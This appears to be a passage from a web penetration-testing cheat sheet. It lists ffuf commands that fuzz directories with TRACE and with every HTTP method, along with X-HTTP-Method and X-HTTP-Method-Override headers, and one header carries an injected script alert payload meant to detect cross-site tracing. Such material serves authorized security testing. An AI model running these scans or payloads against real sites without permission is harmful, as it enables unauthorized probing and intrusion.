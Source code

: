 {% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x http-methods-fuzzer.sh;sudo ./http-methods-fuzzer.sh $WEBSITE
```

### Cross-Site Tracing Potential <a href="#testing-for-cross-site-tracing-potential" id="testing-for-cross-site-tracing-potential"></a>

#### [FFUF](https://github.com/ffuf/ffuf)

```bash
ffuf -w /tmp/urls.txt:URL \
     -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt:DIR \
     -u URL/DIR \
     -X TRACE \
     -H "Custom-Test-Header: <scipt>alert('unk9vvn')</script>" \
     -r -c -mc 200 -mr "unk9vvn"
```

### HTTP Method Overriding <a href="#testing-for-http-method-overriding" id="testing-for-http-method-overriding"></a>

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
X-HTTP-Method
{% endhint %}

```bash
echo -e "GET\nPOST\nPUT\nDELETE\nHEAD\nOPTIONS\nTRACE\nCONNECT\nPATCH" > /tmp/methods.txt; \
ffuf -w /tmp/methods.txt:METHODS \
     -w /tmp/urls.txt:URL \
     -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt:DIR \
     -u URL/DIR \
     -X METHODS \
     -H "X-HTTP-Method: METHODS" \
     -r -c -mc 200
```

{% hint style="info" %}
X-HTTP-Method-Override
{% endhint %}

```bash
echo -e "GET\nPOST\nPUT\nDELETE\nHEAD\nOPTIONS\nTRACE\nCONNECT\nPATCH" > /tmp/methods.txt; \
ffuf -w /tmp/methods.txt:METHODS \
     -w /tmp/urls.txt:URL \
     -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt:DIR \
     -u URL/DIR \
     -X METHODS \
     -H "X-HTTP-Method-Override: METHODS" \
     -r -c -mc 200
```
